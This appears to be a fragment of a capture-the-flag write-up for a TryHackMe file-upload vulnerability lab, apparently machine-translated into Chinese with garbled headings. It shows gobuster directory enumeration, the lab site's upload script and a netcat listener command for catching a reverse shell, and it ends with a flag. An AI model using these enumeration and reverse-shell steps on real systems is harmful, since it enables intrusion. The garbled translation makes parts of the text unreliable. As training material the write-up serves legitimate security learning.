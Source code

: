 **/内容(状态:301)
/管理(状态:200)
/管理(状态:200)
/管理(状态:200)
/资产(状态:301)
/内容(状态:301)
/模块(状态:301)**

## **硬石膏**

```
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Mon, 16 Nov 2020 22:27:20 GMT
Content-Type: application/javascript; charset=UTF-8
Content-Length: 1579
Connection: close
X-Powered-By: Express
Access-Control-Allow-Origin: *
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Fri, 03 Jul 2020 22:16:52 GMT
ETag: W/"62b-17316c0f820"$(document).ready(function(){let errorTimeout;const fadeSpeed=1000;function setResponseMsg(responseTxt,colour){$("#responseMsg").text(responseTxt);if(!$("#responseMsg").is(":visible")){$("#responseMsg").css({"color":colour}).fadeIn(fadeSpeed)}else{$("#responseMsg").animate({color:colour},fadeSpeed)}clearTimeout(errorTimeout);errorTimeout=setTimeout(()=>{$("#responseMsg").fadeOut(fadeSpeed)},5000)}$("#uploadBtn").click(function(){$("#fileSelect").click()});$("#fileSelect").change(function(){const fileBox=document.getElementById("fileSelect").files[0];const reader=new FileReader();reader.readAsDataURL(fileBox);reader.onload=function(event){const text={success:"File successfully uploaded",failure:"No file selected",invalid:"Invalid file type"};$.ajax("/",{data:JSON.stringify({name:fileBox.name,type:fileBox.type,file:event.target.result}),contentType:"application/json",type:"POST",success:function(data){let colour="";switch(data){case "success":colour="green";break;case "failure":case "invalid":colour="red";break}setResponseMsg(text[data],colour)}})}})});
```

****Gobuster****

```
gobuster dir -u [http://jewel.uploadvulns.thm/content](http://jewel.uploadvulns.thm/content) -w UploadVulnsWordlist.txt -t 250 -x jpg
```

**/ABH.jpg(状态:200)
/LKQ.jpg(状态:200)
/SAD.jpg(状态:200)
/UAD.jpg(状态:200)**

```
nc -lnvp 9001
```

> ****Flag:THM { nzrlytuwntizodmwmwzhmzbiy 2 jlzwu 2 }****

**你可以在:
**LinkedIn:-**[https://www.linkedin.com/in/shamsher-khan-651a35162/](https://www.linkedin.com/in/shamsher-khan-651a35162/)
**Twitter:-**[https://twitter.com/shamsherkhannn](https://twitter.com/shamsherkhannn)
**Tryhackme:-**[https://tryhackme.com/p/Shamsher](https://tryhackme.com/p/Shamsher)**
